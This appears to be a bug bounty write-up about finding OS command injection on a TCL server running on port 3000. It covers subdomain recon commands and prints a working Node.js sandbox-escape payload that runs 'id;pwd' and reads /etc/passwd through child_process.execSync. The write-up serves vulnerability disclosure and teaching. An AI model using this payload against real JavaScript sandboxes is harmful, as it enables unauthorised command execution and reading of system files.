 ```yaml
---
author: Nithissh S
pubDatetime: 2019-07-15
modDatetime: 2019-07-15
title: Journey from an Unidentified Port to an OS Command Injection on TCL
slug: oscommand-injection-on-tcl
featured: true
draft: false
tags:
  - BugBounty
description:
  Discovers an OS Command Injection vulnerability during the TCL bug bounty program on an unusual port—3000. Utilizing subdomain enumeration tools like amass and subfinder, he identifies a server misinterpreted as API documentation. Registering as a user, Nithissh explores the dashboard and exploits a screenplay functionality to execute JavaScript code, revealing system information.
---
```


## Introduction

I hope all is well and you are in good health. A few months back, I was engaged in the TCL bug bounty program, where I encountered an interesting subdomain operating on an unusual port—3000. Leveraging the JavaScript code parser functionality, I managed to unveil an OS Command injection vulnerability. Join me in the upcoming section as I delve into the details of how I discovered this vulnerability and the methods employed to exploit it.

### Discovery Phase: Unveiling Subdomains through Enumeration

The initial step involved subdomain enumeration using powerful tools like amass and subfinder, configured with the appropriate set of free API keys:

```sh
subfinder -dL targets.txt -all -o subfinder.txt 
amass enum -df targets.txt -config ./myconfigfile.ini -o amass.txt
```

These commands resulted in an extensive list of subdomains. The next crucial step was permutation. Leveraging Gotator and a dedicated permutation wordlist, we aimed to broaden our attack surface. While this process generated a substantial number of subdomains, it's imperative to acknowledge that not all of them may be active. The subsequent task involves resolving and confirming the live status of these subdomains.

## Permutation process explained

Permutation, in the context of subdomain discovery, is the process of systematically iterating through a list of subdomains or a specific subdomain. This is achieved by exploring various combinations made possible with the utilization of a permutation wordlist.

#### Example Flowchart 


![](../../assets/images/os-1.png)


In the permutation process, taking **"dev.example.com"** as an example, the system explores various combinations to generate an extensive subdomain wordlist.

After compiling the subdomains, the next crucial step is resolution to filter out unavailable domains. Initially, I used puredns along with a resolvers list from Janmasarik. However, I now employ an extensive resolvers wordlist from Trickest, comprising around 9,000 resolvers, significantly expediting the subdomain resolution process.

```sh
puredns resolve -r resolvers.txt allsubs.txt -w resolved.txt
```

Following subdomain resolution, I utilized HTTPx and a list of potentially interesting ports, ultimately discovering a **server** operating on **port 3000**.


![](../../assets/images/os-2.png)


Upon initial inspection, I misconstrued it as a random API documentation page. However, in the upcoming section, I'll delve into the process of how I escalated the situation to command injection.

## Exploitation Phase

Initially, I registered as a regular user by accessing the portal through the **"Login/Register"** option on the homepage.

![](../../assets/images/os-3.png)

Following the user registration, I began exploring the functionality by initiating actions at the foundational level, starting with the creation of a new item.


![](../../assets/images/os-4.png)


Upon creating a new item, a dashboard opened with my project name. Now, the next step involves adding an interface to delve further into the endpoints or examine the functionality in more detail.


![](../../assets/images/os-5.png)


After establishing the interface, the dashboard now presents the following appearance:


![](../../assets/images/os-6.png)


A web server had been hosted, but the question remained: where was the code or any functionality to host it? Upon further exploration, I discovered an option called **"screenplay"** in the **Advanced Mock tab** after experimenting with its features.


![](../../assets/images/os-7.png)


Within the screenplay functionality, we have the ability to input any JavaScript code, and it will be executed in the mock server. Following research and referencing various sources, I crafted the appropriate JavaScript code:

```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;pwd").toString()
```

The provided JavaScript code executes the **'id'** command and retrieves information about the present working directory.

![](../../assets/images/os-8.png)


By modifying the last line of the JavaScript code, we can obtain the contents of /etc/passwd:

```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```

Upon making this change and refreshing the mock server, we successfully retrieved the contents of **/etc/passwd**.

![](../../assets/images/os-9.png)


## Conclusion

In my efforts to escalate the issues through a reverse shell, I encountered a roadblock. The JavaScript code was not parsed correctly, and despite my attempts, it remained resilient to reporting.

Thank you for taking the time to read my writeup. Wishing you a great day ahead!
